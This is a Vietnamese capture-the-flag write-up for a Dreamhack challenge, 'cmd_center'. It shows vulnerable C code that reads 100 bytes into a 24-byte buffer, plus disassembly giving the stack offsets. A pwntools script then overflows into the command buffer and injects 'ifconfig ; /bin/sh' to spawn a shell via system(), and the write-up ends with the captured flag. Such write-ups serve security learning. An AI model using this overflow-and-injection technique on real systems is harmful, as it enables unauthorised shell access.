

**1. Tìm lỗi**

Ta có file sorce như sau:

```
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void init() {
	setvbuf(stdin, 0, 2, 0);
	setvbuf(stdout, 0, 2, 0);
}

int main()
{

	char cmd_ip[256] = "ifconfig";
	int dummy;
	char center_name[24];

	init();

	printf("Center name: ");
	read(0, center_name, 100);


	if( !strncmp(cmd_ip, "ifconfig", 8)) {
		system(cmd_ip);
	}

	else {
		printf("Something is wrong!\n");
	}
	exit(0);
}

```

Chương trình cho mình nhập vào biến `center_name`. Rồi kiểm tra xem 8 byte của biến `cmp_ip` có bằng ipconfig không. Nếu có thì thực hiện system chuỗi đó. Nếu không thì báo lỗi.

**2. Ý tưởng**

Nhập tràn từ biến `center_name` đến `cmp_ip` rồi chèn chuỗi `ipconfig` để vượt qua lệnh `if` và tạo shell. Muốn tạo shell thì chèn thêm chuỗi `/bin/sh` là xong.

**3. Khai thác**

```
   0x0000555555400916 <+105>:   lea    rax,[rbp-0x130]
   0x000055555540091d <+112>:   mov    edx,0x64
   0x0000555555400922 <+117>:   mov    rsi,rax
   0x0000555555400925 <+120>:   mov    edi,0x0
   0x000055555540092a <+125>:   call   0x555555400720 <read@plt>
```

```
   0x000055555540092f <+130>:   lea    rax,[rbp-0x110]
   0x0000555555400936 <+137>:   mov    edx,0x8
   0x000055555540093b <+142>:   lea    rsi,[rip+0xd0]        # 0x555555400a12
   0x0000555555400942 <+149>:   mov    rdi,rax
   0x0000555555400945 <+152>:   call   0x5555554006e0 <strncmp@plt>
```

Ta thấy biến `center_name` cách rbp 0x130 byte, biến `cmd_ip` cách rbp 0x110 byte. Vậy 2 biến cách nhau 0x130 - 0x110 byte. Nên nhập từng đó byte rác rồi chèn chuỗi vào là xong bài toán

Ta có script như sau:

```
from pwn import *

exe = ELF('cmd_center', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12057)

payload = b'a'*(0x130 - 0x110)
payload += b'ifconfig ; /bin/sh'
r.sendafter(b'name: ', payload)
r.interactive()
```

**4. Lấy flag**



`Flag: DH{f4c11bf9ea5a1df24175ee4d11da0d16}`